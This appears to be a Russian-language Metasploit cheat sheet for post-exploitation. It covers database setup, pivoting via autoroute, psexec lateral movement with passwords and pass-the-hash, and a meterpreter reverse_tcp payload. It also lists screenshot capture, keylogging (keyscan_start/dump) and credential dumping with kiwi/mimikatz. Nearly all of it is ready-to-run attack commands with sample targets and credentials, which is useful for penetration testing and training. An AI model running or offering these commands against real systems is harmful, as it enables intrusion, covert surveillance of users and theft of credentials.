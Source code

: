 ## Metasploit
Все изложенное проверено на работоспособность в Kali2020.04

# Инициализация базы данных для сохранение информации.

1. Запуст postgresql.

`systemctl start start`

`systemctl enable start`

2. Инициализация БД 

`msfdb init`

3. Смена пароля пользователя msf

`sudo -u postgres psql`

`postgres=#alter user msf password '123456';`

4. Проверка подключения

`msf5 > db_connect msf:123456@localhost/msf`

5. Автоматическое подключение msf к БД и смена пароля.

`nano /usr/share/metasploit-framework/config/database.yml`

# Проброс во внутренюю сеть (pivoting).

1. Используем модуль ssh_login для захода на пограничный узел.

2. Преобразуем ssh-сессию в сессию meterpreter 

`session -u <session_num>`

3. Выходим из сессии meterpreter-а и используем для неё _post/multi/manage/autoroute_

`post/multi/manage/autoroute`

`set SESSION 8`

`set SUBNET 10.100.36.0`

`run`

Если надо распечатать текущий статут autoroute:

`set CMD print`

`run`

# smb_login или psexec модули 
## Доступ по паролю

`use windows/smb/psexec`

`set RHOST 10.100.36.7`

`set SMBDomain company.ru`

`set SMBPass Qwerty2020`

`set SMBUser eborisenko`

### Необходимо проверить payload. Если Windows x64, то его требуется сменить.

`set PAYLOAD payload/windows/x64/meterpreter/reverse_tcp`

`run`

## Доступ по ntlm-хешу.

Если доступен ntlm-хеш, то к нему в начало надо добавить заглушку в виде нулевого LM-хеша

`set SMBPass 00000000000000000000000000000000:7661de2ec1fe5de9d91da21375bc618d`

### Если в Windows включена "Защита в режиме реального времени", то создания сессии не происходит.

Преобразование сессии meterpreter в cmd.exe.

`shell`

# Получение скриншотов 
1. Перемещение в нужный процесс (explorer.exe)

`migrate 260`

2. Снять скриншот.

`screenshot`

# Кейлоггинг
1. Перемещение в процесс explorer.exe.

`migrate 260`

2. Запустить запись символов

`keyscan_start`

3. Посмотреть что получилось.

`keyscan_dump`

4. Завершить.

`keyscan_stop`

# Creds dump

1. Из сессии meterpreter нужной разрядность (!) выполняем команду для загрузки mimikatz:

`load kiwi`

2. Извлекаем все возможные креды:

`creds_all`


